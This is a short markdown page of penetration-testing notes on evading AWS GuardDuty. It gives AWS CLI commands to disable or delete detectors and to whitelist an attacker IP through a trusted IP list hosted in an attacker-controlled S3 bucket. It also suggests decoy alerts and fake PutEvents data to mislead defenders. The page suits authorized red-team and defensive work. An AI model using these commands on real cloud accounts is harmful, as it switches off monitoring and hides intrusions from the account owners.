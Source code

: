 Run the following command to see if GuardDuty is enabled in the region:

`aws guardduty list-detectors`

## Bypassing Techniques

### Distraction

- can purposely trigger certain alerts to distract a defender from your real path
- if GuardDuty is using CloudWatch Events, you could use the `PutEvents` API to provide fake unexpected data to GuardDuty findings that could break the target of the CloudWatch Events rule
    - false data in the correct format could also be sent to confuse defenders

### Disabling Monitoring

- not recommended as it causes damage to the environment

To disable a GuardDuty detector:

`aws guardduty update-detector --detector-id <DETECTOR_ID> --no-enabled`

Delete detector:

`aws guardduty delete-detector --detector-id <DETECTOR_ID>`

### Whitelisting

- IPs in the GuardDuty whitelist will not cause any GuardDuty findings
    - this means you can perform **any** API call within the region, and no findings will be generated
- enumeration and modification of GuardDuty settings are not triggered
- requires `iam:PutRolePolicy`
- maximum of 2000 IP addresses and CIDR ranges in one trusted IP list
    - only one trusted IP list exists per region

To check if a trusted IP list is associated with a detector:

`aws guardduty list-ip-sets --detector-id <DETECTOR_ID>`

**Creating a Whitelist for a Detector** 

1. Create S3 bucket on local attacker AWS account
2. Upload attacker IP in TXT to an S3 bucket 
3. Open the S3 bucket
4. `aws guardduty create-ip-set --detector-id <DETECTOR_ID> --format TXT --location https://s3.amazonaws.com/<ATTACKER_BUCKET>/ip-whitelist.txt --name Whitelist --activate`

**Updating a Whitelist** 

- in this scenario, you should essentially update the trusted IP list
1. Enumerate IPs in trusted list: `aws guardduty get-ip-set --detector-id <DETECTOR_ID> --ip-set-id <IP_SET_ID>`
    - returns location of public S3 bucket used for whitelisting which you can download
    - save the location so that GuardDuty configurations can be restored after the engagement
2. Go through steps 1-3 in “Creating a Whitelist for a Detector”, and ensure the contents of the S3 whitelist file also contain the IPs of the downloaded trusted list. 
3. `aws guardduty update-ip-set --detector-id <DETECTOR_ID> --ip-set-id <IP_SET_ID> --location https://s3.amazonaws.com/<ATTACKER_BUCKET>/ip-whitelist.txt --activate`
